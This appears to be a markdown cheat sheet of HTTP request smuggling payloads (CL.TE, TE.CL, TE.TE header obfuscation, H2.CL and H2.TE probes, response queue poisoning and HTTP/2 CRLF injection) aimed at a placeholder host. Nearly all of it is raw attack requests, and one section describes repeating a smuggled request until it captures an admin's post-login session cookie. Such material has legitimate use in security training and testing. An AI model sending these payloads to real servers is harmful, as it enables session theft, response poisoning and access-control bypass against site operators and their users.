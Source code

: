 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\r\n
\r\n
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## Finding H2.CL vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Finding H2.TE vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Response queue poisoning via H2.TE request smuggling
```
POST /x HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: vulnerable-website.com
\r\n
\r\n
```
Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

## HTTP/2 request smuggling via CRLF injection
<table>
    <tr>
        <td>foo</td>
        <td>
            <p>bar\r\n<br>
            Transfer-Encoding: chunked</p>
        </td>
    </tr>
</table>

## HTTP/2 request splitting via CRLF injection
<table>
    <tr>
        <td>:method</td>
        <td>GET</td>
    </tr>
    <tr>
        <td>:path</td>
        <td>/x</td>
    </tr>
    <tr>
        <td>:authority</td>
        <td>vulnerable-website.com</td>
    </tr>
    <tr>
        <td>foo</td>
        <td>
            <p>bar\r\n<br>
            \r\n<br>
            GET /x HTTP/1.1\r\n<br>
            Host: vulnerable-website.com</p>
        </td>
    </tr>
</table>
